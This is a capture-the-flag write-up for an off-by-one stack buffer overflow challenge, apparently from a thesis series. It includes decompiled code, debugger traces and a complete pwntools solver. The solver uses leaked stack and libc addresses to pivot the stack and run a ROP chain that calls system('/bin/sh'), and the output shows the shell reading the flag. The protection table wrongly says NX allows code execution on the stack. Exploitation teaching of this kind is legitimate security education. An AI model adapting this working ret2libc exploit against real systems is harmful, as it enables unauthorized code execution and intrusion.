

# [__Challenge5__](#)

## Description: 

* Fill the leaked buffer address with payload and overwrite $rsp's last byte with buffer's last byte. 

## Objective: 

* off-by-one.

## Flag:
* `FLAG{0n3_byt3_cl0s3r_2_v1ct0ry}`

## Challenge:

First of all, we start with a `checksec`:  

```console
gef➤  checksec
[*] '/home/w3th4nds/github/Thesis/challenge5/challenge/challenge5'
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./.glibc/'
```


### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   | 
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Allows code execution on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary | 
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

* `Canary` is disabled, meaning we can have a possible `Buffer Overflow`.
* `PIE` is also disabled, meaning we know the base address of the binary and its functions and gadgets.

The interface of the program looks like this:


Luckily, we have both stack address and libc address leaked for us.

### Disassembly ⛏️

Starting from `vulnerable_function()`:

```c
void vulnerable_function(void)

{
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  buffer_demo();
  printf("\n[*] Stack address: [%p]\n[*] printf@GOT:    [%p]\n",&local_48,printf);
  printf(
         "\n[*] The buffer is [%d] bytes long and \'read(0, buffer, %d)\' reads up to %dbytes.\n[*] Overflow the buffer and SFP with the payload we want to execute later.\n[*]Overwrite the \'$rsp\' last byte with leaked buffer address\'s last byte.\n\n> "
         ,0x40,0x41,0x41);
  read(0,&local_48,0x41);
  return;
}
```

`local_48` is 0x40 bytes and `read(0, local_48, 0x41)` reads one byte more than the buffer can store.

As the challenge prompts us, we are going to abuse this off-by-one bug to overwrite `$rsp` to our desired value, which is tha leaked stack address. Let's open a debugger to see how it works.

### Debugging 🐞

```c
*RAX  0x41
 RBX  0x0
*RCX  0x7ffff7af2151 (read+17) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x41
 RDI  0x0
 RSI  0x7fffffffe020 ◂— 0x4141414141414141 ('AAAAAAAA')
 R8   0xec
 R9   0x0
 R10  0x0
 R11  0x246
 R12  0x4006d0 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffe150 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fffffffe060 —▸ 0x7fffffffe042 ◂— 0x4141414141414141 ('AAAAAAAA')
 RSP  0x7fffffffe020 ◂— 0x4141414141414141 ('AAAAAAAA')
*RIP  0x400a46 (vulnerable_function+167) ◂— leave  
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────
   0x400a30 <vulnerable_function+145>    lea    rax, [rbp - 0x40]
   0x400a34 <vulnerable_function+149>    mov    edx, 0x41
   0x400a39 <vulnerable_function+154>    mov    rsi, rax
   0x400a3c <vulnerable_function+157>    mov    edi, 0
   0x400a41 <vulnerable_function+162>    call   read@plt                      <read@plt>
 
 ► 0x400a46 <vulnerable_function+167>    leave  
   0x400a47 <vulnerable_function+168>    nop    
   0x400a48 <vulnerable_function+169>    leave  
   0x400a49 <vulnerable_function+170>    ret    
 
   0x400a4a <setup>                      push   rbp
   0x400a4b <setup+1>                    mov    rbp, rsp
```

Taking a better look at `leave` instruction from: https://www.felixcloutier.com/x86/leave

 

So it actually set $rsp to $rbp and then pops $rbp. $rsp has the address where we are going to return when the `ret` instruction is reached. We see that after 72 bytes, our next input will overwrite the last byte of `$rsp`. 

```gdb
*RAX  0x41
 RBX  0x0
*RCX  0x7ffff7af2151 (read+17) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x41
 RDI  0x0
 RSI  0x7fffffffe020 ◂— 0x4141414141414141 ('AAAAAAAA')
 R8   0xec
 R9   0x0
 R10  0x0
 R11  0x246
 R12  0x4006d0 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffe150 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fffffffe060 —▸ 0x7fffffffe042 ◂— 0x4141414141414141 ('AAAAAAAA')
 RSP  0x7fffffffe020 ◂— 0x4141414141414141 ('AAAAAAAA')
*RIP  0x400a46 (vulnerable_function+167) ◂— leave  
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────
   0x400a30 <vulnerable_function+145>    lea    rax, [rbp - 0x40]
   0x400a34 <vulnerable_function+149>    mov    edx, 0x41
   0x400a39 <vulnerable_function+154>    mov    rsi, rax
   0x400a3c <vulnerable_function+157>    mov    edi, 0
   0x400a41 <vulnerable_function+162>    call   read@plt                      <read@plt>
 
 ► 0x400a46 <vulnerable_function+167>    leave  
   0x400a47 <vulnerable_function+168>    nop    
   0x400a48 <vulnerable_function+169>    leave  
   0x400a49 <vulnerable_function+170>    ret    
 
   0x400a4a <setup>                      push   rbp
   0x400a4b <setup+1>                    mov    rbp, rsp
```

After `leave` instruction we see that `$rbp` last byte is overwritten with our "B".  

```gdb
 RAX  0x41
 RBX  0x0
 RCX  0x7ffff7af2151 (read+17) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x41
 RDI  0x0
 RSI  0x7fffffffe020 ◂— 0x4141414141414141 ('AAAAAAAA')
 R8   0xec
 R9   0x0
 R10  0x0
 R11  0x246
 R12  0x4006d0 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffe150 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x7fffffffe042 ◂— 0x4141414141414141 ('AAAAAAAA')
*RSP  0x7fffffffe068 —▸ 0x400aa5 (main+14) ◂— mov    eax, 0
*RIP  0x400a47 (vulnerable_function+168) ◂— nop    
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────
   0x400a34 <vulnerable_function+149>    mov    edx, 0x41
   0x400a39 <vulnerable_function+154>    mov    rsi, rax
   0x400a3c <vulnerable_function+157>    mov    edi, 0
   0x400a41 <vulnerable_function+162>    call   read@plt                      <read@plt>
 
   0x400a46 <vulnerable_function+167>    leave  
 ► 0x400a47 <vulnerable_function+168>    nop    
   0x400a48 <vulnerable_function+169>    leave  
   0x400a49 <vulnerable_function+170>    ret    
 
   0x400a4a <setup>                      push   rbp
   0x400a4b <setup+1>                    mov    rbp, rsp
   0x400a4e <setup+4>                    mov    rax, qword ptr [rip + 0x2015cb] <0x602020>
```

```gdb
*RBP  0x4141414141414141 ('AAAAAAAA')
*RSP  0x7fffffffe04a ◂— 0x4141414141414141 ('AAAAAAAA')
*RIP  0x400a49 (vulnerable_function+170) ◂— ret    
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────
   0x400a3c <vulnerable_function+157>    mov    edi, 0
   0x400a41 <vulnerable_function+162>    call   read@plt                      <read@plt>
 
   0x400a46 <vulnerable_function+167>    leave  
   0x400a47 <vulnerable_function+168>    nop    
   0x400a48 <vulnerable_function+169>    leave  
 ► 0x400a49 <vulnerable_function+170>    ret    <0x4141414141414141>
```

So, our payload should look like this:

```python
payload  = p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(pop_rdi+1)
payload += p64(libc.sym.system)
payload += b'\x90'*(offset - len(payload))
payload += one_byte
```

After we overwrite it with the last byte of our buf address, we can return there and execute whatever it has inside it.

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")
context.arch = "amd64"

fname = "./challenge5" 

e     = ELF(fname)
rop   = ROP(e)
libc  = ELF(e.runpath + b"./libc.so.6") 

LOCAL = False

prompt = ">"

def ret2libc(r, prompt, offset):

  r.recvuntil("address: [")
  stack_addr = int(r.recvuntil(']')[:-1], 16)
  log.info(f"Stack address @ {hex(stack_addr)}")
  r.recvuntil("GOT:    [")
  libc.address = int(r.recvuntil(']')[:-1], 16) - libc.sym.printf
  log.info(f"Libc base     @ {hex(libc.address)}")
  one_byte = stack_addr & 0xff
  log.info(f"One byte:    {hex(one_byte)}")
  one_byte = p64(one_byte-8)[:1]
  
  # Craft payload to call system("/bin/sh") and spawn shell
  pop_rdi  = rop.find_gadget(["pop rdi"])[0]
  payload  = p64(pop_rdi+1)
  payload += p64(pop_rdi)
  payload += p64(next(libc.search(b"/bin/sh")))
  payload += p64(pop_rdi+1)
  payload += p64(libc.sym.system)
  payload += b'\x90'*(offset - len(payload))
  payload += one_byte
  log.info(f"Len payload: {len(payload)}")
  r.sendafter(prompt, payload)
  r.interactive()


def pwn():
  # Find the overflow offset
  offset = 64
  
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)

  ret2libc(r, prompt, offset)

if __name__ == "__main__":
  pwn()
```

### PoC 🏁

```console
➜  challenge git:(main) ✗ python solver.py 
[*] '/home/w3th4nds/github/Thesis/challenge5/challenge/challenge5'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./.glibc/'
[*] Loading gadgets for '/home/w3th4nds/github/Thesis/challenge5/challenge/challenge5'
[*] b'/home/w3th4nds/github/Thesis/challenge5/challenge/.glibc/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 0.0.0.0 on port 1337: Done
[*] Stack address @ 0x7ffcaf75b470
[*] Libc base     @ 0x7f884259f000
[*] One byte:    0x70
[*] Len payload: 65
[*] Switching to interactive mode
 $ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
FLAG{0n3_byt3_cl0s3r_2_v1ct0ry}
$ 
[*] Interrupted
[*] Closed connection to 0.0.0.0 port 1337
```
